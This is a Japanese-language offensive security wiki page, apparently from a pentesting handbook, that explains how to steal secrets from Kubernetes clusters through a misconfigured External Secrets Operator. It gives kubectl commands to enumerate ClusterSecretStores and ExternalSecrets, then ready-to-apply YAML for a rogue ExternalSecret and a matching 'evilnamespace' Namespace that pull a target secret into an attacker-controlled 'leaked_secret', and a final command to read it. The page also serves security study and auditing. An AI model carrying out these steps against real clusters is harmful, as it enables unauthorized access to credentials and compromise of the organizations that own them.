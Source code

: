 # External Secret Operator

**このページの元の著者は** [**Fares**](https://www.linkedin.com/in/fares-siala/)

このページでは、誤って構成されたESOまたはESOを使用して秘密を同期するアプリケーションから秘密を盗む方法についてのいくつかのポイントを示します。

## Disclaimer

以下に示す技術は、特定の条件が満たされる場合にのみ機能します。たとえば、あなたが所有または侵害した名前空間で秘密を同期するために必要な要件に依存します。自分で見つける必要があります。

## Prerequisites

1. 名前空間での管理者権限を持つkubernetes / openshiftクラスターへの足場
2. クラスターレベルでの少なくともExternalSecretへの読み取りアクセス
3. ESOがあなたの秘密を同期するために必要なラベル/アノテーションまたはグループメンバーシップがあるかどうかを確認します。運が良ければ、定義された秘密を自由に盗むことができます。

### Gathering information about existing ClusterSecretStore

十分な権限を持つユーザーがこのリソースを読み取ることができると仮定して、まず既存の_**ClusterSecretStores**_をリストアップします。
```sh
kubectl get ClusterSecretStore
```
### ExternalSecretの列挙

_**mystore**_という名前のClusterSecretStoreを見つけたと仮定します。その関連するexternalsecretを列挙します。
```sh
kubectl get externalsecret -A | grep mystore
```
_このリソースは名前空間スコープであるため、どの名前空間を探すべきかすでに知っていない限り、-Aオプションを追加してすべての名前空間を横断して探してください。_

定義されたexternalsecretのリストが得られるはずです。_**mysecret**_というexternalsecretオブジェクトが_**mynamespace**_という名前空間で定義されていると仮定しましょう。それが保持している秘密の種類についてもう少し情報を集めてください。
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### 部品の組み立て

ここから、1つまたは複数のシークレット名（Secretリソースで定義されているように）を取得できます。出力は次のようになります:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
これまでに得たものは次のとおりです：

- ClusterSecretStoreの名前
- ExternalSecretの名前
- 秘密の名前

必要なものがすべて揃ったので、ExternalSecretを作成できます（そして最終的には、新しい秘密を同期させるために必要な前提条件を満たすために新しいNamespaceをパッチまたは作成することができます）：
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
数分後、同期条件が満たされていれば、あなたのネームスペース内で漏洩したシークレットを表示できるはずです。
```sh
kubectl get secret leaked_secret -o yaml
```
## 参考文献

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
